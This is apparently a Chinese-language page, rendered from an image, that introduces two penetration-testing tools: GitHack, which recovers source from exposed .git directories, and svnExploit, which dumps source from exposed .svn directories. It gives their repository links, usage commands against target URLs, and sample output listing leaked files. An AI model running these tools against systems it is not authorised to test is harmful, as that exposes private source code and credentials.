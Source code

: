 ### 项目地址

```http
https://github.com/BugScanTeam/GitHack
```

### 项目介绍

```http
GitHack
.git 泄漏利用工具，可还原历史版本

依赖
不需要安装其它 Python 库，只需要有 git 命令

git
ubuntu/debian: $ apt-get install git
redhat/centos: $ yum install git
windows git-for-windows下载
使用前需确保 git 在 环境变量中

使用方法
python GitHack.py http://www.example.com/.git/
还原后的文件在 dist/ 目录下

工作流程
尝试获取 packs克隆
尝试目录遍历克隆
尝试从缓存文件(index)、commit记录中恢复
```

## SVN源代码利用工具

### 项目地址

```http
https://github.com/admintony/svnExploit
```

### 项目介绍

```http
SvnExploit是一款SVN源代码利用工具，其完美支持SVN<1.7版本和SVN>1.7版本的SVN源代码泄露

python .\svnExploit.py -u http://192.168.27.128/unit-2/lab3/.svn/
 ____             _____            _       _ _
/ ___|_   ___ __ | ____|_  ___ __ | | ___ (_) |_
\___ \ \ / / '_ \|  _| \ \/ / '_ \| |/ _ \| | __|
 ___) \ V /| | | | |___ >  <| |_) | | (_) | | |_
|____/ \_/ |_| |_|_____/_/\_\ .__/|_|\___/|_|\__|
                            |_|
SvnExploit - Dump the source code by svn
Author: AdminTony (http://admintony.com)
https://github.com/admintony/svnExploit


+--------------------+----------+------------------------------------------------+
|       文件名       | 文件类型 |                    CheckSum                    |
+--------------------+----------+------------------------------------------------+
|      conn.php      |   file   | $sha1$8f47ccbd4a436aa4f31018fea026275f6059ed10 |
|       trunk        |   dir    |                      None                      |
|      branches      |   dir    |                      None                      |
|  admin_login.php   |   file   | $sha1$a6981b1ca963c8a75e133e38780be7ff0cd60952 |
|     phpmyadmin     |   file   | $sha1$6d5af41c175e344ee483732648edc9318b2a6014 |
|     README.TXT     |   file   | $sha1$c5981462cc06422f4a78e68f0a48dddcf5860eb9 |
```